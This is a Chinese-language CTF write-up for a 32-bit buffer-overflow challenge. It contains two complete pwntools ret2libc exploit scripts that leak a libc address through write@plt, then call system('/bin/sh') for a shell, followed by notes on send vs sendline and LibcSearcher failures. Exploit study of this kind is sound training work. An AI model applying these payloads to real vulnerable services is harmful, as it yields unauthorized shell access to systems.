










# challenge



*栈不可执行，但没有PIE*


没有system函数、/bin/sh字符串和int 80指令





gets函数缓冲区溢出


offset=112


"write@plt" is at 0x80490a0

**栈布局**
```
buf
|
|           108
|
ebp         4
|
ret ————> write@plt
|
write_ret_addr  ————> vuln_addr
|
write_arg1      ————> 1
|
write_arg2      ————> write_got_addr
|
write_arg3      ————> 4

```
```
buf
|
|
|
ebp
|
ret ————> system@plt
|
system_ret_addr  ————> 随便填
|
system_arg1      ————> binsh_addr
```

### 问题、脚本对比
```
from pwn import *
from LibcSearcher import *

p= process('challenge')
elf=ELF('challenge')
context.terminal=['tmux','splitw','-h']
context.log_level='debug'

offset=112
write_got_addr=elf.got['write']
write_plt_addr=elf.plt['write']
vuln_addr=elf.symbols['vuln']

payload=b'A'*offset+p32(write_plt_addr)+p32(vuln_addr)+p32(1)+p32(write_got_addr)+p32(4)

p.recvuntil(b'payload!?')
p.sendline(payload)
#p.send(payload)


p.recvuntil(b'archived.\n')
leak_addr=u32(p.recvn(4))
print('leak_addr:',hex(leak_addr))

libc=LibcSearcher('write',leak_addr)

libc_base=leak_addr-libc.dump('write')
system_addr=libc_base+libc.dump('system')
binsh_addr=libc_base+libc.dump('str_bin_sh')

print('system',hex(system_addr))
offset2=112
exp=b'A'*offset2+p32(system_addr)+p32(binsh_addr)+p32(binsh_addr)

p.recvuntil(b"payload!?")
p.sendline(exp)
p.interactive()
```
情况1：send(payload)发送第一次payload


情况2：sendline(payload)发送第一次payload

```
from pwn import *

context.binary='./challenge'
p= process('challenge')

elf=context.binary

libc=ELF('/lib32/libc.so.6')
context.terminal=['tmux','splitw','-h']
context.log_level='debug'

offset=112
write_got_addr=elf.got['write']
write_plt_addr=elf.plt['write']
vuln_addr=elf.symbols['vuln']

payload=b'A'*offset+p32(write_plt_addr)+p32(vuln_addr)+p32(1)+p32(write_got_addr)+p32(4)

p.recvuntil(b'payload!?')
p.sendline(payload)


p.recvuntil(b'archived.\n')
leak_addr=u32(p.recvn(4))
print('leak_addr:',hex(leak_addr))

libc_base=leak_addr-libc.symbols['write']

system_addr=libc_base+libc.symbols['system']
binsh_addr=libc_base+next(libc.search(b'/bin/sh\x00'))

print('system',hex(system_addr))
offset2=112
exp=b'A'*offset2+p32(system_addr)+p32(binsh_addr)+p32(binsh_addr)

p.recvuntil(b"payload!?")
p.sendline(exp)
p.interactive()
```


### send vs sendline 的影响

- 第一个脚本用 p.send(payload)，第二个用 p.sendline(payload)。

- 对于目标程序 challenge，如果它期望以换行符 \n 作为输入结束符：

- sendline() 会自动加 \n，能正确触发漏洞

- send() 不加 \n，可能导致程序阻塞在 read() 等待更多输入

### LibcSearcher 卡住的常见原因

- 数据库不存在或损坏：LibcSearcher 需要下载 libc 数据库，可能没下载完整

- 网络问题：访问 GitHub raw 内容被阻断

- 找不到匹配版本：泄露的地址无法匹配到任何已知 libc 版本

- Python 版本不兼容：某些版本的 LibcSearcher 有 bug

### 建议
- 对于 CTF 或本地调试，直接明确指定 libc 文件，避免使用 LibcSearcher。

- 如果在比赛环境，通常会提供 libc 文件：

```bash
# 用提供的 libc 文件
libc = ELF('./libc.so.6')
```

- 只有在不知道远程 libc 版本的情况下才用 LibcSearcher。


